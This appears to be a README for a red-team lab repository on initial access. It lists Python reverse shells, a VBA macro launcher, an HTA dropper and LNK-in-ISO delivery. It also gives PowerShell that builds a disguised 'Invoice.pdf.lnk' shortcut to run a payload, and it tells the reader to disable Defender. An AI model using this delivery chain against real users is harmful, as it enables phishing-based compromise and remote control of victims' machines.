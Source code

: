 # Foothold Lab – Part 1: Initial Access with Python

## ⚠️ Disclaimer
This repository is for **educational purposes only**. It is intended for ethical hackers, red teamers, and cybersecurity professionals operating in lab environments. Do **not** deploy any of this in production or without proper authorization.

## 💻 What’s Included
- `payloads/`: Basic and obfuscated Python reverse shells
- `macro/`: VBA macro launcher for Word documents
- `hta/`: HTML Application dropper using mshta.exe
- `iso/`: LNK-based ISO delivery components

## 🧪 Lab Setup
1. Create a Windows 10/11 VM (VirtualBox/VMware)
2. Disable Defender temporarily inside the VM
3. Install Python and set PATH
4. Serve `rev.py` via HTTP (e.g., `python -m http.server`)
5. Generate `.lnk` using PowerShell:
```powershell
$Wsh = New-Object -ComObject WScript.Shell
$Lnk = $Wsh.CreateShortcut("Invoice.pdf.lnk")
$Lnk.TargetPath = "python"
$Lnk.Arguments = "payload.py"
$Lnk.IconLocation = "notepad.exe"
$Lnk.Save()
```
6. Use `PackMyPayload` or ISO creation tool to bundle the ISO.

## 🔗 Next: Privilege Escalation & Credential Dumping
Stay tuned for Part 2.